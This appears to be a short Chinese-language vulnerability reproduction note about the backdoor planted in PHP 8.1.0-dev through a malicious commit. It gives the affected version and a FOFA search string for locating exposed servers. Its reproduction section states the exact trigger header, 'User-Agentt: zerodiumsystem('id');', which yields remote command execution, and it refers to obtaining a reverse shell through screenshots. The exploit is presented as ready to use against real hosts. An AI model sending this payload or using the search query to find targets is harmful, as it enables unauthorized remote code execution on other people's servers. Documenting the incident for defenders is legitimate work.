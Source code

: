 # PHP zerodium后门漏洞

## 漏洞描述

PHP开发工程师Jake Birchall在对其中一个恶意COMMIT的分析过程中发现，在代码中注入的后门是来自一个PHP代码被劫持的网站上，并且采用了远程代码执行的操作，并且攻击者盗用了PHP开发人员的名义来提交此COMMIT。

目前为止PHP官方并未就该事件进行更多披露，表示此次服务器被黑的具体细节仍在调查当中。由于此事件的影响，PHP的官方代码库已经被维护人员迁移至GitHub平台，之后的相关代码更新、修改将会都在GitHub上进行。

## 漏洞影响

```
PHP 8.1.0-dev
```

## FOFA

```
"PHP/8.1.0-dev"
```

## 漏洞复现

后门为添加请求头

```plain
User-Agentt: zerodiumsystem('id');
```

- 是 User-Agentt 不是 User-Agent



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091309632.png)

反弹shell

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091310034.png)